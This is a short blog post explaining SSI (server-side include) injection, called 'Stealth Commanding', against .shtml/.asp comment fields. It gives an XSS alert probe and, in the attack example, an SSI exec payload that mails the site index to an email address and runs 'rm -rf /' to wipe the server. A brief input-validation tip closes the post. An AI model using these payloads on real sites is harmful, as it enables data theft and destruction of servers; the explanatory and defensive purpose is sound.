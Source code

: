 ```yaml
---
title: "Stealth Commanding"
publishedAt: "2024-08-13"
summary: "My first post on my new blog."
---
```


# [ Stealth Commanding ]

### [ Content ]

[1] What is Stealth Commanding \
[2] What is SSI \
[3] How to find vulnerability \
[4] Example of attack \
[5] How to protect


[1] What is Stealth Commanding \
Stealh Commanding is a type of web attack that comes with SSI (Server-side inclusion) codes exploiting its vulnerabilities.
This attack can be performed if files with the extension .asp or .shtml are in question

[2] What is SSI (Server-side inclusion) \
SSI is a way of attaching some files to some file.
In PHP, attaching files is done this way: include('header.php');
while in ASP or SHTML it works like this: <!--#include virtual="fajl.html"-->

[3] How to find vulnerability \
Since dorks for this vulnerability do not exist, it is most often targeted at beginner sites where you can comment on some news or similar.
If the filters are misplaced or don't exist what this bug will do is, like XSS, edit the site code and execute the "command".

[4] Example of attack  \
We came across a simple daily newspaper site and saw that if we leave a comment with the message<script>alert("XSS")</script> after refreshing
it will throw us a message with the text XSS, which would mean that the site is vulnerable. The next thing we need to do is to instead of <script>alert("XSS")</script>
<!--#include virtual="index.shtml"--> which will, for example, to the page /stranica/novost/ovaj-onaj-levo-desno.shtml add next to the basic things i
index file.

If we inject code like this
```jsx
<!--#exec cmd="mail -s 'Index' example@email.com <index.shtml; rm -rf /"-->
```
Which will trigger a command to be sent to my email with the title Site Index
with the code of the index page and then format the server.

[5] How to protect \
To protect our site from this attack, it is enough to create a good filters and input validation as well as keeping systems up-to-date
